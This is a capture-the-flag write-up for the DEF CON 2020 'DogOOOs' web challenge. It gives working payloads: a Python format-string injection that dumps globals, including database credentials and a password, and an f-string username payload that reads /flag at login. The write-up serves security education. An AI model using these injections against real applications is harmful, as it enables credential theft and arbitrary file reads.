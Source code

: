 # DEF CON CTF Qualifier 2020 – Challenge Name

* **Category:** web
* **Points:** 151

## Challenge

> DogOOOs is a new website where members can rate pictures of dogs. We think there might still be a few bugs, can you check it out? In this challenge, the flag is located in the root directory of the server at /flag.
> 
> http://dogooos.challenges.ooo:37453
> 
> dogooos.challenges.ooo 37453
> 
> Files:
> 
> [dogooo_comments.py](dogooo_comments.py) a881e06d1d70809ffdc9149a5be5b5de6796542f2ed2225fd43d451fde2c8c78
> 
> [loaddata.py](loaddata.py) 0b57622ec86e02c0d8726538161dffb1e13ba1a18b7538354c12f762e4947c23

## Solution

The website allows you to upload and comment pictures of dogs.

There is an interesting endpoint at `/dogooo/runcmd` that contains a remote shell functionality, but it can't be used due to an `HTTP 502 Bad Gateway` error.

Several functionalities can be used only by authenticated users (i.e. `@login_required` annotations). There is an endpoint that can be used to create new users (i.e. `/dogooo/user/create`), but even this functionality requires the login.

A public functionality is the `/dogooo/deets/<postid>` that can be used to insert a new comment under a picture.

The comment is inserted with a two-step procedure:
1. the comment is inserted like a preview and showed into the webpage;
2. the content of the comment is strictly validated and inserted into the database.

Analyzing the code for the first step, in the [loaddata.py](loaddata.py) file, an interesting line of code can be found into `get_comments` function.

```python
def get_comments(self):
    out = ""
    for ccnt, cmt in enumerate(self.comments):
        fmt_cmt = cmt.comment.format(rating=self.__dict__)
        form_save = f"""
            <form action="/dogooo/deets/add/{self.id}" method="POST">
                <input type=hidden id="comment" name="comment" value='{fmt_cmt}'></textarea>
                <input type=hidden id="commenter" name="commenter" value='{cmt.author}'/>
                <input type=submit value="Save" />
            </form>
        """
        if cmt.preview:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author} {form_save} </ul>\n"
        else:
            out += f"<ul class='square'>{fmt_cmt} - {cmt.author}</ul>\n"

    return out
```

The interesting line is the following.

```
fmt_cmt = cmt.comment.format(rating=self.__dict__)
```

It seems that if you use a format string like `{rating}` into the comment text, then the content of `self.__dict__` can be printed.

Trying it, the following content will be printed into the preview webpage.

```html
<ul class='square'>{'id': 3, 'rating': 13, '_message': "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 'pic_loc': 'images/img_3.jpg', 'author': 'demidog', 'comments': [<app.loaddata.Comment object at 0x7fc4eaadf160>, <app.loaddata.Comment object at 0x7fc4eaadf1f0>, <app.loaddata.Comment object at 0x7fc4eaadf1c0>, <app.loaddata.Comment object at 0x7fc4eaadf280>, <app.loaddata.Comment object at 0x7fc4eaadf3d0>, <app.loaddata.Comment object at 0x7fc4eaadf430>, <app.loaddata.Comment object at 0x7fc4eaadf490>, <app.loaddata.Comment object at 0x7fc4eaadf4f0>, <app.loaddata.Comment object at 0x7fc4eaadf550>, <app.loaddata.Comment object at 0x7fc4eaadf5b0>, <app.loaddata.Comment object at 0x7fc4eaadf610>, <app.loaddata.Comment object at 0x7fc4eaadf670>, <app.loaddata.Comment object at 0x7fc4eaadf6d0>, <app.loaddata.Comment object at 0x7fc4eaadf730>, <app.loaddata.Comment object at 0x7fc4eaadf790>, <app.loaddata.Comment object at 0x7fc4eaadf7f0>, <app.loaddata.Comment object at 0x7fc4eaadf850>, <app.loaddata.Comment object at 0x7fc4eaadf8b0>, <app.loaddata.Comment object at 0x7fc4eaadf910>, <app.loaddata.Comment object at 0x7fc4eaadf970>, <app.loaddata.Comment object at 0x7fc4eaadf9d0>, <app.loaddata.Comment object at 0x7fc4eaadfa30>, <app.loaddata.Comment object at 0x7fc4eaadfa90>, <app.loaddata.Comment object at 0x7fc4eaadfaf0>, <app.loaddata.Comment object at 0x7fc4eaadfb50>, <app.loaddata.Comment object at 0x7fc4eaadfbb0>, <app.loaddata.Comment object at 0x7fc4eaadfc10>, <app.loaddata.Comment object at 0x7fc4eaadfc70>, <app.loaddata.Comment object at 0x7fc4eaadfcd0>, <app.loaddata.Comment object at 0x7fc4eaadfd30>, <app.loaddata.Comment object at 0x7fc4eaadfd90>, <app.loaddata.Comment object at 0x7fc4eaadfdf0>, <app.loaddata.Comment object at 0x7fc4eaadfe50>, <app.loaddata.Comment object at 0x7fc4eaadfeb0>, <app.loaddata.Comment object at 0x7fc4eaadff10>, <app.loaddata.Comment object at 0x7fc4eaadff70>, <app.loaddata.Comment object at 0x7fc4eaadffd0>, <app.loaddata.Comment object at 0x7fc4eaae6070>, <app.loaddata.Comment object at 0x7fc4eaae60d0>, <app.loaddata.Comment object at 0x7fc4eaae6130>, <app.loaddata.Comment object at 0x7fc4eaae6190>, <app.loaddata.Comment object at 0x7fc4eaae61f0>, <app.loaddata.Comment object at 0x7fc4eaae6250>, <app.loaddata.Comment object at 0x7fc4eaae62b0>, <app.loaddata.Comment object at 0x7fc4eaae6310>, <app.loaddata.Comment object at 0x7fc4eaae6370>, <app.loaddata.Comment object at 0x7fc4eaae63d0>, <app.loaddata.Comment object at 0x7fc4eaae6430>, <app.loaddata.Comment object at 0x7fc4eaae6490>, <app.loaddata.Comment object at 0x7fc4eaae64f0>, <app.loaddata.Comment object at 0x7fc4eaae6550>, <app.loaddata.Comment object at 0x7fc4eaae65b0>, <app.loaddata.Comment object at 0x7fc4eaae6610>, <app.loaddata.Comment object at 0x7fc4eaae6670>, <app.loaddata.Comment object at 0x7fc4eaae66d0>, <app.loaddata.Comment object at 0x7fc4eaae6730>, <app.loaddata.Comment object at 0x7fc4eaae6790>, <app.loaddata.Comment object at 0x7fc4eaae67f0>, <app.loaddata.Comment object at 0x7fc4eaae6850>, <app.loaddata.Comment object at 0x7fc4eaae68b0>, <app.loaddata.Comment object at 0x7fc4eaae6910>, <app.loaddata.Comment object at 0x7fc4eaae6970>, <app.loaddata.Comment object at 0x7fc4eaae69d0>, <app.loaddata.Comment object at 0x7fc4eaae6a30>, <app.loaddata.Comment object at 0x7fc4eaae6a90>, <app.loaddata.Comment object at 0x7fc4eaae6af0>, <app.loaddata.Comment object at 0x7fc4eaae6b50>, <app.loaddata.Comment object at 0x7fc4eaae6bb0>, <app.loaddata.Comment object at 0x7fc4eaae6c10>, <app.loaddata.Comment object at 0x7fc4eaae6c70>, <app.loaddata.Comment object at 0x7fc4eaae6cd0>, <app.loaddata.Comment object at 0x7fc4eaae6d30>, <app.loaddata.Comment object at 0x7fc4eaae6d90>, <app.loaddata.Comment object at 0x7fc4eaae6df0>, <app.loaddata.Comment object at 0x7fc4eab30af0>]} - author
```

As you can read [here](https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/), this code can be abused to read secret data.

The following code can be used to access *globals* objects.

```python
{rating[comments][0].__class__.__init__.__globals__}
```

It will give the following output.

```html
<ul class='square'>{'__name__': 'app.loaddata', '__doc__': None, '__package__': 'app', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, '__spec__': ModuleSpec(name='app.loaddata', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7fc4ed1f4670>, origin='./app/loaddata.py'), '__file__': './app/loaddata.py', '__cached__': './app/__pycache__/loaddata.cpython-38.pyc', '__builtins__': {'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': ModuleSpec(name='builtins', loader=<class '_frozen_importlib.BuiltinImporter'>), '__build_class__': <built-in function __build_class__>, '__import__': <built-in function __import__>, 'abs': <built-in function abs>, 'all': <built-in function all>, 'any': <built-in function any>, 'ascii': <built-in function ascii>, 'bin': <built-in function bin>, 'breakpoint': <built-in function breakpoint>, 'callable': <built-in function callable>, 'chr': <built-in function chr>, 'compile': <built-in function compile>, 'delattr': <built-in function delattr>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'format': <built-in function format>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'locals': <built-in function locals>, 'max': <built-in function max>, 'min': <built-in function min>, 'next': <built-in function next>, 'oct': <built-in function oct>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'repr': <built-in function repr>, 'round': <built-in function round>, 'setattr': <built-in function setattr>, 'sorted': <built-in function sorted>, 'sum': <built-in function sum>, 'vars': <built-in function vars>, 'None': None, 'Ellipsis': Ellipsis, 'NotImplemented': NotImplemented, 'False': False, 'True': True, 'bool': <class 'bool'>, 'memoryview': <class 'memoryview'>, 'bytearray': <class 'bytearray'>, 'bytes': <class 'bytes'>, 'classmethod': <class 'classmethod'>, 'complex': <class 'complex'>, 'dict': <class 'dict'>, 'enumerate': <class 'enumerate'>, 'filter': <class 'filter'>, 'float': <class 'float'>, 'frozenset': <class 'frozenset'>, 'property': <class 'property'>, 'int': <class 'int'>, 'list': <class 'list'>, 'map': <class 'map'>, 'object': <class 'object'>, 'range': <class 'range'>, 'reversed': <class 'reversed'>, 'set': <class 'set'>, 'slice': <class 'slice'>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'zip': <class 'zip'>, '__debug__': True, 'BaseException': <class 'BaseException'>, 'Exception': <class 'Exception'>, 'TypeError': <class 'TypeError'>, 'StopAsyncIteration': <class 'StopAsyncIteration'>, 'StopIteration': <class 'StopIteration'>, 'GeneratorExit': <class 'GeneratorExit'>, 'SystemExit': <class 'SystemExit'>, 'KeyboardInterrupt': <class 'KeyboardInterrupt'>, 'ImportError': <class 'ImportError'>, 'ModuleNotFoundError': <class 'ModuleNotFoundError'>, 'OSError': <class 'OSError'>, 'EnvironmentError': <class 'OSError'>, 'IOError': <class 'OSError'>, 'EOFError': <class 'EOFError'>, 'RuntimeError': <class 'RuntimeError'>, 'RecursionError': <class 'RecursionError'>, 'NotImplementedError': <class 'NotImplementedError'>, 'NameError': <class 'NameError'>, 'UnboundLocalError': <class 'UnboundLocalError'>, 'AttributeError': <class 'AttributeError'>, 'SyntaxError': <class 'SyntaxError'>, 'IndentationError': <class 'IndentationError'>, 'TabError': <class 'TabError'>, 'LookupError': <class 'LookupError'>, 'IndexError': <class 'IndexError'>, 'KeyError': <class 'KeyError'>, 'ValueError': <class 'ValueError'>, 'UnicodeError': <class 'UnicodeError'>, 'UnicodeEncodeError': <class 'UnicodeEncodeError'>, 'UnicodeDecodeError': <class 'UnicodeDecodeError'>, 'UnicodeTranslateError': <class 'UnicodeTranslateError'>, 'AssertionError': <class 'AssertionError'>, 'ArithmeticError': <class 'ArithmeticError'>, 'FloatingPointError': <class 'FloatingPointError'>, 'OverflowError': <class 'OverflowError'>, 'ZeroDivisionError': <class 'ZeroDivisionError'>, 'SystemError': <class 'SystemError'>, 'ReferenceError': <class 'ReferenceError'>, 'MemoryError': <class 'MemoryError'>, 'BufferError': <class 'BufferError'>, 'Warning': <class 'Warning'>, 'UserWarning': <class 'UserWarning'>, 'DeprecationWarning': <class 'DeprecationWarning'>, 'PendingDeprecationWarning': <class 'PendingDeprecationWarning'>, 'SyntaxWarning': <class 'SyntaxWarning'>, 'RuntimeWarning': <class 'RuntimeWarning'>, 'FutureWarning': <class 'FutureWarning'>, 'ImportWarning': <class 'ImportWarning'>, 'UnicodeWarning': <class 'UnicodeWarning'>, 'BytesWarning': <class 'BytesWarning'>, 'ResourceWarning': <class 'ResourceWarning'>, 'ConnectionError': <class 'ConnectionError'>, 'BlockingIOError': <class 'BlockingIOError'>, 'BrokenPipeError': <class 'BrokenPipeError'>, 'ChildProcessError': <class 'ChildProcessError'>, 'ConnectionAbortedError': <class 'ConnectionAbortedError'>, 'ConnectionRefusedError': <class 'ConnectionRefusedError'>, 'ConnectionResetError': <class 'ConnectionResetError'>, 'FileExistsError': <class 'FileExistsError'>, 'FileNotFoundError': <class 'FileNotFoundError'>, 'IsADirectoryError': <class 'IsADirectoryError'>, 'NotADirectoryError': <class 'NotADirectoryError'>, 'InterruptedError': <class 'InterruptedError'>, 'PermissionError': <class 'PermissionError'>, 'ProcessLookupError': <class 'ProcessLookupError'>, 'TimeoutError': <class 'TimeoutError'>, 'open': <built-in function open>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2020 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}, 'connect': <function Connect at 0x7fc4ed0c4700>, 'f': <class 'fstring.fstring.fstring'>, 'clean': <function clean at 0x7fc4ed09f310>, 'json': <module 'json' from '/usr/lib/python3.8/json/__init__.py'>, 'post_results': ((3, "This is Griffey. His St. Patrick's Day bow tie didn't arrive until this morning. Politely requests that everyone celebrate again. 13/10", 2, 13, 'images/img_3.jpg', 2, 'demidog', 'princesses_password'),), 'jf': <_io.TextIOWrapper name='/dbcreds.json' mode='r' encoding='UTF-8'>, 'jdata': {'db_user': 'dogooo', 'db_pass': 'dogZgoneWild'}, 'db_user': 'dogooo', 'db_pass': 'dogZgoneWild', 'Comment': <class 'app.loaddata.Comment'>, 'Post': <class 'app.loaddata.Post'>, 'get_posting': <function get_posting at 0x7fc4ed1fe940>, 'UserMixin': <class 'flask_login.mixins.UserMixin'>, 'save_comment': <function save_comment at 0x7fc4eb2819d0>, 'get_all_posts': <function get_all_posts at 0x7fc4eb281af0>, 'create_post_entry': <function create_post_entry at 0x7fc4eab0c0d0>, 'User': <class 'app.loaddata.User'>, 'user_create_entry': <function user_create_entry at 0x7fc4eab1c040>, 'get_login': <function get_login at 0x7fc4eab1c280>, 'get_user': <function get_user at 0x7fc4eab1c310>} - author
```

From this data you can spot user credentials:
* username: `demidog`;
* password: `princesses_password`;

So now you can authenticate into the system and **you can create new users**.

During the authentication, an interesting behavior can be spot. The `login` method ([dogooo_comments.py](dogooo_comments.py)) uses the *f-Strings* functionality of Python 3, [which is a very powerful formatting syntax](https://realpython.com/python-f-strings/) and can be used to call methods.

```python
@app.route("/dogooo/login", methods=["GET", "POST"])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        user = get_login(username, password)
        if user is not None:
            login_user(user)
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")

        else:
            return redirect(request.host_url[:-1] + f"/dogooo/show?message=Login+FAILED")
    else:
        return abort(401)
```

The interesting line is the following.

```python
return redirect(request.host_url[:-1] + f"/dogooo/show?message=Welcom+back+{user.get_user_info()}")
```

The `get_user_info` method of the `User` class into [loaddata.py](loaddata.py) uses the *f-Strings* functionality on the `username` field.

```python
from fstring import fstring as f
...   ...   ...
def get_user_info(self):
    return f(self.username)
```

So you can create a new user with a malicious username that could trigger a RCE during the authentication. The malicious username is: `{open('/flag').read()}`.

Authenticating with this user, you will be redirect to the following address.

```
http://dogooos.challenges.ooo:37453/dogooo/show?message=Welcom+back+OOO%7Bdid%20you%20see%20my%20dog%7D
```

Which contains the flag in the URL.

![flag.png](flag.png)

So the flag is the following.

```
OOO{did you see my dog}
```